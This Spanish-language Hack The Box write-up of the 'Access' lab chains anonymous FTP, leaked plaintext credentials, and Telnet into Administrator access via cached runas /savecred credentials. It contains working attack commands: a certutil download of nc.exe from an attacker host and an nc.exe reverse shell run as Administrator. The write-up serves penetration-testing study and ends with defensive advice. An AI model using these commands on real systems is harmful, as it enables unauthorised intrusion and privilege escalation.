# Access — Hack The Box (práctica CPTS)

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows
**Certificación:** Práctica adicional para el CPTS (Certified Penetration Testing Specialist)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · FTP anónimo · Base de datos Microsoft Access (`.mdb`) con `mdbtools` · ZIP protegido con contraseña reutilizada · PST de Outlook con `readpst` · Telnet · Credenciales cacheadas de `runas /savecred` → Administrator
**Idioma:** Español — [🇬🇧 English version](./Access_Writeup_EN.md)

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración FTP — filtración en cascada](#2-enumeración-ftp--filtración-en-cascada)
3. [Acceso inicial — Telnet como `security`](#3-acceso-inicial--telnet-como-security)
4. [Escalada de privilegios — `runas /savecred`](#4-escalada-de-privilegios--runas-savecred)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Glosario de herramientas y comandos](#7-glosario-de-herramientas-y-comandos)

---

## 1. Reconocimiento

Comprobamos la disponibilidad del host y estimamos el sistema operativo por el TTL:

```bash
ping -c 1 10.129.68.136
```

> 🛠️ **`ping`** — envía paquetes ICMP para comprobar si un host está activo. Un TTL de **127** (partiendo de 128 y restando 1 salto) es la firma clásica de **Windows** (Linux suele partir de 64).



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.68.136 -oN AllPorts
```



> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — escaneo SYN completo de los 65535 puertos: `-sS` (sigiloso, sin completar el handshake), `-Pn` (no descarta el host aunque no responda a ping), `--min-rate 5000` (acelera el envío de paquetes), `--open` (solo puertos abiertos), `-n` (sin resolución DNS).

Para no repetir manualmente la lectura del resultado, se usa una herramienta propia de enumeración que resume la salida de Nmap:

```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — script propio (no es una herramienta estándar) que parsea el fichero de salida de Nmap y muestra un resumen limpio: IP, TTL detectado, SO estimado, puertos abiertos y una lista lista para copiar en el siguiente escaneo con `-p`. Automatiza el paso manual de leer el `.txt` de Nmap y extraer los puertos.


Tres puertos abiertos: **21** (ftp), **23** (telnet) y **80** (http). Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p21,23,80 -oN Ports 10.129.68.136
```


| Puerto | Servicio | Detalle |
|--------|----------|---------|
| 21 | Microsoft ftpd | **`ftp-anon`: Anonymous FTP login allowed** |
| 23 | Microsoft Windows XP telnetd | Hostname `ACCESS`, `Product_Version: 6.1.7600` (Windows 7) |
| 80 | Microsoft IIS httpd 7.5 | Título **"MegaCorp"** |

> 💡 El propio script `ftp-anon` de Nmap ya confirma que el FTP acepta **login anónimo** sin necesidad de probarlo a mano — la vía de entrada más evidente de las tres.

## 2. Enumeración FTP — filtración en cascada

Nos conectamos por FTP como usuario anónimo:

```bash
ftp 10.129.68.136
Name: anonymous
Password: (cualquiera)
```

> 🛠️ **`ftp`** — cliente de línea de comandos para el protocolo FTP. Muchos servidores mal configurados permiten **acceso anónimo** (usuario `anonymous`, cualquier contraseña) para compartir ficheros públicos — aquí es la puerta de entrada.

Cambiamos a modo binario (obligatorio para no corromper ficheros no-texto) y exploramos:

```bash
ftp> binary
ftp> ls -la
ftp> cd Backups
ftp> get backup.mdb
```

> 🛠️ **`binary`** — cambia el modo de transferencia de FTP de ASCII a binario. Es imprescindible antes de descargar cualquier fichero que no sea texto plano (bases de datos, ejecutables, ZIPs...), ya que el modo ASCII puede alterar bytes de control y corromper el fichero.


En la carpeta `Engineer` hay además un ZIP protegido:

```bash
ftp> cd Engineer
ftp> get "Access Control.zip"
```



> 💡 Dos ficheros de interés: `backup.mdb` (base de datos de Microsoft Access) y `Access Control.zip` (protegido con contraseña, todavía desconocida en este punto).

### 2.1 Extrayendo credenciales del `.mdb`

Un `.mdb` es una base de datos de **Microsoft Access**. En Linux se analiza con el paquete `mdbtools`, sin necesidad de tener Access instalado:

```bash
mdb-tables backup.mdb
```

> 🛠️ **`mdb-tables`** — lista todas las tablas contenidas en una base de datos `.mdb`/`.accdb` de Microsoft Access. Parte del paquete `mdbtools`, la herramienta estándar en Linux para trabajar con este formato propietario.



Entre decenas de tablas de un sistema de control de accesos, filtramos por las que puedan contener credenciales:

```bash
mdb-tables backup.mdb | grep 'user'
```

> 🛠️ **`grep 'user'`** — filtra las líneas de la salida anterior que contienen la palabra `user`, para no tener que leer manualmente el listado completo de tablas. Aísla `auth_user`, `auth_user_groups`, `auth_user_user_permissions`, entre otras.



La tabla `auth_user` es la candidata obvia. La exportamos a CSV para leerla cómodamente:

```bash
mdb-export backup.mdb auth_user
```

> 🛠️ **`mdb-export`** — vuelca el contenido de una tabla concreta de la base de datos en formato **CSV**, listo para procesar con cualquier herramienta de texto.


```csv
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

Guardamos las tres credenciales encontradas:


```
admin:admin
engineer:access4u@security
backup_admin:admin
```

### 2.2 El ZIP y el PST

Probamos la contraseña de `engineer` contra el ZIP descargado:

```bash
7z x "Access Control.zip"
# Enter password: access4u@security
```

> 🛠️ **`7z x`** — extrae (`x` de *extract*) el contenido de un archivo comprimido, preguntando la contraseña si está protegido. Aquí confirma que la contraseña de `engineer` se **reutiliza** también para proteger este ZIP.


Dentro aparece un fichero **`Access Control.pst`** — un archivo de correo de **Microsoft Outlook**. Lo procesamos con `readpst`:

```bash
readpst "Access Control.pst"
```

> 🛠️ **`readpst`** — convierte un fichero `.pst` (el formato propietario de almacenamiento de correo de Outlook) en ficheros `.mbox` legibles con herramientas estándar de Unix, sin necesidad de tener Outlook instalado.



Leemos el correo extraído:

```bash
cat "Access Control.mbox"
```



```
From: john@megacorp.com
Subject: MegaCorp Access Control System "security" account

Hi there,

The password for the "security" account has been changed to 4Cc3ssC0ntr0ller.
Please ensure this is passed on to your engineers.

Regards,
John
```

> 💡 Tercera generación de credenciales filtradas en cascada: FTP anónimo → base de datos Access → ZIP (contraseña reutilizada) → correo dentro del PST. Cada paso desbloquea el siguiente sin explotar ninguna vulnerabilidad técnica, solo **higiene de credenciales pésima**.

Guardamos la nueva credencial:



```
security:4Cc3ssC0ntr0ller
```

## 3. Acceso inicial — Telnet como `security`

Con la cuenta `security` y su contraseña, nos conectamos por Telnet (el puerto 23 detectado al inicio):

```bash
telnet 10.129.68.136
login: security
password: 4Cc3ssC0ntr0ller
```

> 🛠️ **`telnet`** — cliente para el protocolo Telnet, un acceso remoto de línea de comandos **sin cifrar** (todo el tráfico, incluidas las credenciales, viaja en texto plano). Obsoleto en cualquier entorno de producción moderno, pero aquí es un servicio expuesto legítimo del laboratorio.



Acceso confirmado como `security` en el host **ACCESS**.

### 3.1 Localizando la primera flag

```
cd Desktop
dir
```


Confirmamos la existencia de `user.txt` (34 bytes) en el escritorio de `security` — la primera flag del laboratorio.

## 4. Escalada de privilegios — `runas /savecred`

Explorando el escritorio público (`C:\Users\Public\Desktop`), hay un acceso directo a la aplicación de control de accesos:

```
type "ZKAccess3.5 Security System.lnk"
```

> 🛠️ **`type`** — el equivalente de `cat` en `cmd.exe`: muestra el contenido de un fichero. Un `.lnk` es un binario (no texto plano), así que el resultado se ve mezclado con caracteres ilegibles, pero **las cadenas de texto ASCII incrustadas siguen siendo legibles** — es una forma rápida de extraer strings de un binario sin herramientas adicionales.



Entre el ruido binario, aparece la línea clave:

```
runas.exe C:\ZKTeco\ZKAccess3.5\G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```

> 💡 Este acceso directo lanza la aplicación `Access.exe` usando **`runas /savecred`** como el usuario `ACCESS\Administrator`. El flag **`/savecred`** es la clave de toda esta escalada: le dice a Windows que **guarde (cachee) las credenciales** la primera vez que se usan, para no volver a pedirlas en sucesivas ejecuciones de `runas` **para ese mismo usuario en esa misma cuenta local** — sin importar qué comando se ejecute después. Si alguien ya ejecutó este acceso directo una vez (aceptando guardar la contraseña de Administrator), esas credenciales quedan cacheadas y reutilizables por **cualquier** usuario con sesión en la máquina, para **cualquier** comando.

### 4.1 Reutilizando las credenciales cacheadas

Preparamos un `nc.exe` para Windows y lo servimos desde un servidor HTTP en nuestra máquina atacante:

```bash
python3 -m http.server 8080
```

> 🛠️ **`python3 -m http.server`** — levanta un servidor HTTP simple sirviendo el directorio actual, sin instalar nada adicional. Forma rápida y estándar de transferir ficheros a una víctima que tenga algún cliente HTTP disponible.



Desde la sesión Telnet (como `security`), descargamos el binario con una utilidad nativa de Windows:

```
certutil -urlcache -split -f http://10.10.15.31:8080/nc.exe nc.exe
```

> 🛠️ **`certutil -urlcache -split -f`** — herramienta legítima de Windows para gestionar certificados, que también admite descargar ficheros por HTTP/HTTPS (`-urlcache -split -f <url> <destino>`). Es una técnica muy usada de **"living off the land"**: descargar herramientas ofensivas usando binarios nativos del sistema, sin necesidad de subir `wget`/`curl` propios ni disparar tantas alarmas como un binario desconocido.



Generamos el payload de reverse shell para `nc.exe` de Windows (con ayuda de un generador de payloads tipo revshells.com):

```
nc.exe 10.10.15.31 444 -e cmd
```


> 🛠️ **`nc.exe -e cmd`** — la variante de Netcat para Windows soporta `-e <programa>`, que conecta la entrada/salida de la conexión de red directamente a un intérprete de comandos (`cmd.exe`), logrando una shell remota interactiva en una sola línea.

Y lo lanzamos, no directamente, sino a través de `runas /savecred` como Administrator — **sin necesidad de conocer su contraseña**, porque ya está cacheada:

```
runas /user:Administrator /savecred "nc.exe 10.10.15.31 444 -e cmd"
```

> 🛠️ **`runas /user:<usuario> /savecred "<comando>"`** — ejecuta el comando indicado con las credenciales de otro usuario. Con `/savecred`, si ya existe una credencial guardada para ese usuario (como la que dejó el acceso directo de ZKAccess), **no vuelve a pedir contraseña** y la reutiliza para lanzar cualquier comando arbitrario — en este caso, nuestra reverse shell en vez de la aplicación original.


Con el listener ya preparado:

```bash
nc -lvnp 444
```



Recibimos la conexión con privilegios de **Administrator**:



```
C:\Windows\system32>whoami
access\administrator
```

## 5. Post-explotación y flags

```
cd C:\Users\Administrator\Desktop
dir
```


Confirmamos la existencia de `root.txt` (34 bytes) en el escritorio de Administrator — la flag final, acreditando el compromiso total del sistema.

> 🔒 El contenido exacto de `user.txt` y `root.txt` no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el camino completo hasta cada uno queda documentado en las secciones §3.1 y §5.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| FTP con acceso anónimo habilitado, sirviendo backups y ficheros internos | Puerto 21 | Punto de entrada sin ninguna credencial |
| Base de datos de Access con contraseñas en texto plano en una tabla `auth_user` | `backup.mdb` | Cualquiera con el fichero obtiene credenciales de varios roles |
| Contraseña reutilizada entre la cuenta `engineer` y la protección del ZIP | `Access Control.zip` | Una sola contraseña filtrada compromete además el contenido cifrado |
| Correo con una contraseña en texto plano, retenido dentro de un `.pst` accesible | `Access Control.pst` | El correo interno terminó siendo, de facto, un tercer almacén de credenciales expuesto |
| Credenciales de Administrator cacheadas de forma persistente con `runas /savecred` | Acceso directo `ZKAccess3.5 Security System.lnk` | Cualquier usuario con sesión en el sistema puede ejecutar **cualquier comando** como Administrator, sin conocer su contraseña |

## Recomendaciones defensivas

- Deshabilitar el acceso FTP anónimo salvo que sea estrictamente necesario, y nunca servir backups o ficheros internos desde él.
- No almacenar contraseñas en texto plano en bases de datos de aplicaciones (usar hashing con sal, como en cualquier sistema de autenticación serio).
- No reutilizar contraseñas entre distintos sistemas, ficheros protegidos y cuentas.
- No dejar credenciales en texto plano en correos electrónicos, ni siquiera "temporalmente" durante una rotación.
- Evitar `runas /savecred` en producción: cachea credenciales de forma persistente y las expone a cualquier usuario local con acceso a la sesión donde se usó. Si es imprescindible automatizar una elevación, usar una cuenta de servicio dedicada con permisos mínimos, o Credential Manager con políticas de acceso restringidas.
- Migrar Telnet a un protocolo cifrado (SSH) siempre que se necesite acceso remoto por línea de comandos.
- Auditar periódicamente qué accesos directos y tareas programadas usan `runas`/credenciales guardadas en los equipos de la organización.

## 7. Glosario de herramientas y comandos

| Herramienta / comando | Para qué sirve |
|------------------------|-----------------|
| `ping` | Comprobar que un host está activo y estimar su SO por el TTL |
| `nmap` | Escanear puertos, servicios y versiones de un host |
| `ftp` | Cliente de línea de comandos para transferir ficheros por FTP (incluido acceso anónimo) |
| `mdb-tables` / `mdb-export` (mdbtools) | Listar tablas y exportar su contenido desde una base de datos Microsoft Access (`.mdb`) en Linux |
| `7z x` | Extraer archivos comprimidos, incluidos los protegidos con contraseña |
| `readpst` | Convertir un fichero `.pst` de Outlook en `.mbox` legibles sin necesidad de Outlook |
| `telnet` | Cliente de acceso remoto por línea de comandos, sin cifrar |
| `type` (cmd.exe) | Mostrar el contenido de un fichero — también útil para extraer strings legibles de binarios |
| `python3 -m http.server` | Servidor HTTP rápido para transferir ficheros a una víctima |
| `certutil -urlcache -split -f` | Descargar ficheros por HTTP usando un binario nativo de Windows ("living off the land") |
| `nc` / `nc.exe -e cmd` | Netcat; en Windows, `-e` conecta una shell de comandos directamente a la conexión de red |
| `runas /user:<usuario> /savecred "<comando>"` | Ejecutar un comando como otro usuario, reutilizando credenciales ya cacheadas sin volver a pedir contraseña |

---

*Escrito por [Arabot](https://github.com/Caan31) · Hack The Box · práctica CPTS · 2026*
